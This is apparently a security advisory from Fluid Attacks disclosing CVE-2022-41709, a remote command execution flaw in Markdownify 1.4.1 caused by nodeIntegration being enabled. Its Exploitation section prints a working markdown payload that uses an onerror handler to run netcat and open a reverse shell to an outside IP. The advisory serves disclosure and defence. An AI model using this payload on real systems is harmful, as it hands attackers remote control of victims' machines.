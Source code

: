 ```yaml
---
slug: advisories/adams/
title: Markdownify 1.4.1 - RCE
authors: Carlos Bello
writer: cbello
codename: adams
product: Markdownify 1.4.1 - RCE
date: 2022-10-14 03:30 COT
cveid: CVE-2022-41709
severity: 8.6
description: Markdownify 1.4.1    -    Remote Command Execution
keywords: Fluid Attacks, Security, Vulnerabilities, Markdownify, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Markdownify 1.4.1 - RCE                                            |
| **Code name**         | [Adams](https://en.wikipedia.org/wiki/Bryan_Adams)                 |
| **Product**           | Markdownify                                                        |
| **Affected versions** | Version 1.4.1                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-14                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Remote command execution                                                                                                    |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)                                 |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 8.6                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41709](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41709)                                             |

## Description

Markdownify version 1.4.1 allows an external attacker to execute
arbitrary code remotely on any client attempting to view a malicious
markdown file through Markdownify. This is possible because the
application has the "nodeIntegration" option enabled.

## Vulnerability

This vulnerability occurs because the application has the
"nodeIntegration" option enabled.  Due to the above, an attacker can
embed malicious JS code in a markdown file and send it to the victim
for viewing to achieve an RCE.

## Exploitation

To exploit this vulnerability, the following file must be sent to a
user to be opened with Markdownify.

### exploit.md

```md
<img src=1 onerror="require('child_process').exec('nc 192.168.20.38 4444 -e /bin/bash');"/>
```

## Evidence of exploitation

![rce-markdownify.gif](https://user-images.githubusercontent.com/51862990/195938731-203e6071-b5c1-4258-95ee-0242880f9eb1.gif)

## Our security police

We have reserved the CVE-2022-41709 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Markdownify 1.4.1

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/amitmerchant1990/electron-markdownify>

## Timeline

<time-lapse
  discovered="2022-09-23"
  contacted="2022-09-23"
  replied="2022-09-23"
  confirmed="2022-09-23"
  patched=""
  disclosure="2022-10-14">
</time-lapse>

